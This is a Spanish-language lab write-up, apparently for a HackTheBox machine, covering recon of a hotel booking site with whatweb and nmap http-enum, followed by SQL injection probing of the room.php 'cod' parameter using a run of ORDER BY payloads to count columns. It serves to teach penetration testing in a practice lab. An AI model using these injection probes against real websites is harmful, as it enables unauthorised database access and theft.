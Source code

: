 

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.143
```

Vemos un dominio 
```bash
 logger.htb 
```
 pero poco mas. Añadimo el dominio a nuestro 
```bash
 /etc/hosts 
```


#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p80 10.10.10.143 -oN webScan
```

Vemos que hay un 
```bash
 /phpmyadmin 
```


#### Analyzando la web con Firefox {-}

Es una web de un hotel donde se puede hacer reservaciones. Cuando miramos mas en profundidad, nos damos cuenta de algo que nos 
llama la atencion 
```bash
 http://10.10.10.143/room.php?cod=6 
```


Si cambiamos el **cod** con numeros invalidos vemos que intenta mostrarnos algo sin mensajes de error. Vamos a comprobar si esta
vulnerable a injeccion SQL## Vulnerability Assessment {-}

### SQL Injection {-}

Intentamos ver si la web responde a un ordenamiento de datos para ver si es vulnerable a Injeccion SQL:

```bash
http://10.10.10.143/room.php?cod=-1 order by 1 -- -
http://10.10.10.143/room.php?cod=-1 order by 2 -- -
http://10.10.10.143/room.php?cod=-1 order by 3 -- -
http://10.10.10.143/room.php?cod=-1 order by 4 -- -
http://10.10.10.143/room.php?cod=-1 order by 5 -- -
http://10.10.10.143/room.php?cod=-1 order by 6 -- -
http://10.10.10.143/room.php?cod=-1 order by 7 -- -
http://10.10.10.143/room.php?cod=-1 order by 8 -- -
http://10.10.10.143/room.php?cod=-1 order by 9 -- -
```
